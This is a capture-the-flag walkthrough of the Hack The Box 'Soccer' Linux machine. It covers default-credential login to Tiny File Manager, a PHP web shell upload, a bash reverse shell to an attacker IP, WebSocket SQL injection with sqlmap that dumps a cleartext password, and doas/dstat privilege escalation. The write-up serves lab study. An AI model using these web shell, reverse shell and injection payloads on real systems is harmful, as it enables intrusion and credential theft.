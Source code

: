 ```yaml
---
title: "Soccer"
date: 15-04-2025
categories: [Linux, Linux Easy]
tags: [Easy, PHP, Web Shell,WebSockets, SQL Injection, Doas, SQLMap]
image: https://labs.hackthebox.com/storage/avatars/ca7f69a02eebf53deb3cd1611dd3f55e.png
---
```


Soccer is an easy Linux machine. It has three ports open one of which is a webpage that contain a `tiny file manager` instance running. Using default credentials we are able to access it and upload a `php` web shell which lets us get a reverse shell as a low privilege user. Using this user we can enumerate the machine and see that it has a hidden subdomain which contains a WebSocket that sends data containing ticket numbers. This is socket is vulnerable to an `sql` injection, using `sqlmap` we can dump the database contents which contains a cleartext password of the user on the home directory of the machine. After some enumeration we find that the binary `doas` has the `setuid` bit set which lets us run a binary as the root user. This binary lets us keep root privileges.

![soccer_info_card](/assets/images/soccer/Soccer.png)

## Enumeration

#### NMap
From the nmap scan we can observe that there are three ports open. SSH and an http port which leads to a webpage with a file manager application running. Port 9091 is not standard and going to it returns some errors, this will become useful later on.
![soccer](/assets/images/soccer/Pasted image 20250414083223.png)

#### Tiny file manager

Going over to the website running on port 80 gives us a soccer themed site. There is not much we can click on so I ran a `ffuf` scan to see what other directories there are on this page. I also ran some VHOST scanning but they did not return any subdomains.

```
ffuf -w /opt/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://soccer.htb/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://soccer.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 16ms]
tiny                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 14ms]
:: Progress: [30000/30000] :: Job [1/1] :: 1886 req/sec :: Duration: [0:00:16] :: Errors: 2 ::
```

Gong over to `http://soccer.htb/tiny` and we can see a login page to access the tiny file manager. 
![soccer](/assets/images/soccer/Pasted image 20250414083800.png)

Since we have no credentials and we do not have any other way to get them I decide to look up for the default credentials to login into the application. A simple google search returns that these are `admin/admin@123; user/12345` . Using the first set of admin credentials works and we are now in the file manager.

![soccer](/assets/images/soccer/Pasted image 20250414084130.png)

#### PHP reverse shell

I looked around the application and found that there is a `php` file being hosted in the directory `tiny`.  This gave me an idea to upload my own `php` shell into the file manager and the site allows us to open the `php` files which execute the code. I created a simple file with the following contents:  `<?php system($_GET["cmd"]); ?>` after naming this file `shell.php` and navigating to `http://soccer.htb/tiny/uploads/shell.php` lets us use our web shell, we can now specify which commands to execute with `?cmd=`. 

![soccer](/assets/images/soccer/Pasted image 20250413201002.png)
Using the following payload I get a reverse shell back to my machine: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/9001 0>&1'`


![soccer](/assets/images/soccer/Pasted image 20250413201225.png)

Since we get the shell as `www-data` we are not able to do much, we have no write permissions so we are not able to download external software to help us escalate our privileges. In this case I tried to look for interesting information on the server, like databases or configuration files. I was not able to find any. Looking at the running services and ports on the machine I see that there is a `mysql` instance running on port 3306 and the same port `9091` that we saw earlier.  In the home directory I see a user `player` but we cannot read any of his files.

![soccer](/assets/images/soccer/Pasted image 20250414085626.png)

Since this port seems to be running a hidden service I decide to investigate further and look at the `/etc/hosts` file of this server. I see a new subdomain `soc-player.soccer.htb`. After adding this to my own hosts file and going to `http://soc-player.soccer.htb/` we can see a new webpage that has more functionality that the other one. 

![soccer](/assets/images/soccer/Pasted image 20250413203107.png)

## Hidden Subdomain

The website has a login form to access a tickets page. I tried logging in with the same credentials as before but they did not work. Luckily the page lets us register a new user. After logging in we are presented with a page that lets us check if a given ticket exists. 

![soccer](/assets/images/soccer/Pasted image 20250414090500.png)

Looking at the source code of the website I see that its sending this data through a WebSocket over port 9091. This is quite weird but now we found the reason for that port being open. The client sends the following payload to the server:

```json
{
	"id":"74853"
}
```

## SQL Injection
The server then will respond with either `Ticket Exists` or `Ticket does not exist`.  The other parts of the webpage do not seem like it could lead us to a shell or sensitive information. Since this is the only part that lets us put user input and send it to the server the vulnerability has to be here. I spent a lot of time here and had to ask for a hint, I already had seen that there was a `mysql` database running on the machine. I was missing that there is an SQL injection in this WebSocket. 

```json
{
	"id":"74823 OR 1=1 -- -"
}
```

Sending this payload to the WebSocket returns `Ticket Exists` even though this ticket does not exist.  I first used a payload with a single quotes after the ticket number but it did not work, the SQL injection only works with the above payload. This injection is not very useful but it allows us to see that the server is vulnerable and we can run `SQLMap` to dump the database contents. 

Using the following command I am able to dump the database which contains the password for the user we saw previously on the box
`sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"*"}' --risk 3 --level 5 --dbs --batch --dbms=mysql`

Without a higher level of risk or level `sqlmap` is not able to find the injection. We can specify that the database is `mysql` since we already saw it was running on port 3306. We get a database: `soccer_db` which contains a table with user information after dumping it we get the following data. 

```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

## Privilege Escalation

Using the credentials `player:PlayerOftheMatch2022` I am able to ssh into the machine. After some enumeration I ran the command `find / -type f -perm -4000 2>/dev/null` which shows that we can run `doas` as root. After some research I find that we have to view its configuration file to find out which binary we can run as root. I used [this](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/) article as a reference. 

```
find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~/snap$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

From this we can see that we can run `dstat` as root. I checked [GTFO](https://gtfobins.github.io/gtfobins/dstat/) bins to see if this binary was exploitable and it was. Running the following command lets us keep root privileges. 

![soccer](/assets/images/soccer/Pasted image 20250414100216.png)